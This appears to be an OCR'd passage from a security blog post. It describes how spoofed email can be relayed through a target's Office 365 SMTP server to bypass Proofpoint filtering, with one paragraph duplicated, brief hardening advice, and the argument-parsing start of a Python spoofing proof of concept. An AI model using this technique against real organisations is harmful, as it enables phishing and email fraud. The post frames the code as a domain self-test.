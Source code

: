 You can enumerate if a target utilizes Proofpoint by looking at their MX records; it'll contain a ```*.pphosted.com``` entry:

![pphosted]({{ site.url }}/static/images/2017_07_11_365phish/pphosted.png)

In addition, Proofpoint doesn't even let you internally relay mail on their SMTP servers. However... if our target is a user of both Proofpoint AND Office 365, we can use the Office 365 SMTP server for their domain to send mail into their environment, and **__bypass Proofpoint infrastructure entirely__**, as our spoofed message never hits the Proofpoint server at all!

In addition, Proofpoint doesn't even let you internally relay mail on their SMTP servers. However... if our target is a user of both Proofpoint AND Office 365, we can use the Office 365 SMTP server for their domain to send mail into their environment, and bypass Proofpoint infrastructure entirely, as our spoofed message never hits the Proofpoint server at all!

For starters, be as restrictive as possible with anything you put on your spam whitelist. Anything you put there opens you up to additional risk. Next, [read this article](https://blogs.msdn.microsoft.com/tzink/2015/07/21/not-using-the-additional-spam-filtering-option-for-spf-hard-fail-to-block-apparently-internal-email-spoofing/), then [read it again](https://blogs.msdn.microsoft.com/tzink/2015/07/21/not-using-the-additional-spam-filtering-option-for-spf-hard-fail-to-block-apparently-internal-email-spoofing/), the [read it one more time](https://blogs.msdn.microsoft.com/tzink/2015/07/21/not-using-the-additional-spam-filtering-option-for-spf-hard-fail-to-block-apparently-internal-email-spoofing/), and start to cry as you realize you will never get the approval from anyone to get all of these recommendations in place.

If you'd like to check if your domain is vulnerable to this, you can utilize a [POC I created to test this](https://gist.github.com/Und3rf10w/6360b1432ff4a766d4047c6f80e1ae98):

```python
#!/usr/bin/env python2

# Example usage: office_365_mail_relay.py --from-addr sender@example.com --to-addr recipient@example.com --domain example.com --subject "SPAM TIME!" --from-name "John Doe" --to-name "John Smith"
# 20170709 - @Und3rf10w

import dns.resolver
import socket
import smtplib
import argparse
from termcolor import cprint
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart

# Required command line arguments:
parser = argparse.ArgumentParser(prog="office_365_mail_relay.py", usage="%(prog)s [options]", description="POC to bypass 365 spam protections from one 365 user to another, including spoofing")
parser.add_argument('--from-addr', help="The address to send the email message from", required=True, dest='fromaddr')
parser.add_argument('--to-addr', help="The address to send the email message to", required=True, dest='toaddr')
parser.add_argument('--domain', help="The domain of an Office 365 user to use", required=True, dest='domain')

# Optional Command line arguments:
parser.add_argument('--smtp-server', help="The *.mail.protection.outlook.com smtp server to use", default=None, dest='smtpserver')
parser.add_argument('--subject', help="The subject line of the test email", default=None, dest='subject')
parser.add_argument('--from-name', help="The name of the email sender", default=None, dest='fromname')
parser.add_argument('--to-name', help="The name of the email recipient", default=None, dest='toname')
parser.add_argument('--eicar', help="Add the eicar test string to the message body", default=False, action='store_true', dest='eicar')

args = parser.parse_args()
```